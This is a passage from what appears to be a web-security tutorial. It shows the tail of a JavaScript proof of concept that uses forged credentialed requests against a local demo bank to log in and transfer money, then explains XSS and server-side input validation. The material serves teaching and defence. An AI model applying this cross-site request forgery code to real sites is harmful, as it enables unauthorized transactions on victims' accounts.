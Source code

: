 ```js
   		    'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Referer' : 'http://bank.127.0.0.1.xip.io:8080/login',
		      'Accept-Encoding' : 'gzip, deflate',
		      'Accept-Language' : 'en-US,en;q=0.9',
          'Cookie' : 'SESSION_ID='
        },
	      body: 'password=super+secret+password'
      }).then(function(response) {
	      console.log(response);
	      fetch('http://bank.127.0.0.1.xip.io:8080/transfer', {
          mode:'no-cors',
          method:'POST',
          credentials:'include',
          headers: {
            'Host' : 'bank.127.0.0.1.xip.io:8080',
            'Connection' : 'Keep-Alive',
            'Content-Length': '34',
            'Cache-Control' : 'max-age=0',
            'Origin' : 'http://bank.127.0.0.1.xip.io:8080',
            'Upgrade-Insecure-Requests' : '1',
            'Content-Type' : 'application/x-www-form-urlencoded',
            'User-Agent' : 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3397.0 Safari/537.36',
            'Accept' : 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'Referer' : 'http://bank.127.0.0.1.xip.io:8080/login',
            'Accept-Encoding' : 'gzip, deflate',
            'Accept-Language' : 'en-US,en;q=0.9',
            'Cookie' : 'SESSION_ID='
          },
          body: 'recipient=Umbrella+Corp&amount=666'
	      }).then(function(response) {
    	    console.log(response);
	      });
      });
    }
  </script>
</body>
```

#### 5.11 Security Exploit - XSS
Whenever a website shows user input, you need to be careful and vigilant. The users input can be anything and it is your responsibility to make sure it won't break your site. \
A clueless user might break it by accident. An evil attacker might exploit this flaw and make your website do things that it did not intend at all. \
Not validating user input is one of the oldest vulnerabilities on the web and it's called __cross-site scripting__ or __XSS__ for short. \
The name comes from the fact that JavaScript can be inject into another site but gets executed and has access to all of that site's data. \
A typical example is a website that asks for a users name when they want to leave a comment. If this input is not validated, a user's name can be crafted in such a way that it contains JavaScript code. \
That means that every user reading that comment will only see the name but the code will be executed without the users knowledge. \
In the grand scheme of things, this example here is a rather harmless but the script has access to all of the site's data including the DOM and Cookies. It could even make fetch requests from the site's origin. A well crafted XSS exploit can be detrimental.\
The only way you can secure yourself against these kinds of attacks is to follow a golden rule that always applies in software engineering. \
__Validate your user's inputs server-side__.
